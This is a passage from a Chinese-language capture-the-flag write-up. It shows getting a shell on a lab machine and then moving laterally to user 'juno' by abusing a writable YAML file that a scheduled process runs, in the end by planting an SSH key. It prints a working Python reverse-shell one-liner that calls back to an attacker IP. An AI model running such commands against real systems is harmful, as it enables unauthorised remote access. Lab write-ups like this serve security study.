 	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' &

payload最后的&不能少，否则shell可能会被杀死

getshell

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/336a3732-a511-bf3e-cf3f-890989fe9d5f.png)

## 本地横向移动 -> juno

传个pspy

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/614ad9ac-6e90-454b-22a2-e3cede40470f.png)

```shell
2023/12/22 07:24:01 CMD: UID=1000  PID=2159   | 
2023/12/22 07:24:01 CMD: UID=1000  PID=2160   | rm -rf /dev/shm/shadow.data 
2023/12/22 07:24:01 CMD: UID=1000  PID=2161   | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml 
2023/12/22 07:24:01 CMD: UID=1000  PID=2164   | sh -c lscpu --online --parse=CPU,CORE,SOCKET,NODE 
2023/12/22 07:24:01 CMD: UID=1000  PID=2165   | lscpu --online --parse=CPU,CORE,SOCKET,NODE 
2023/12/22 07:24:01 CMD: UID=1000  PID=2170   | 
2023/12/22 07:24:02 CMD: UID=1000  PID=2171   | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml 
2023/12/22 07:24:02 CMD: UID=1000  PID=2173   | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml 
2023/12/22 07:24:02 CMD: UID=1000  PID=2175   | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml 
```

我们可以看到/home/juno/.local/bin/shadow这个应用似乎正将yml文件名作为输入并运行

这个文件我们有权读写

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/1a97a2a6-9671-99b0-0c21-263f54a64353.png)

当我查看该文件时，接下来要做的事情便不再需要解释了

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/453ba8c6-19c8-5c8b-1534-7a8fd272556a.png)

python3 payload

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/03eb1ad0-4ec0-4b32-8bfb-a7b8c0c7a05d.png)

发现它确实执行了，但似乎执行没成功，反正我没get到shell

换种方法，直接写入ssh key

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/9f8463e7-f812-b4a2-905e-a4fec631d0dc.png)

这次也执行了

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/4d90cbbf-2f37-d40e-6864-9cdf5cc9cb01.png)
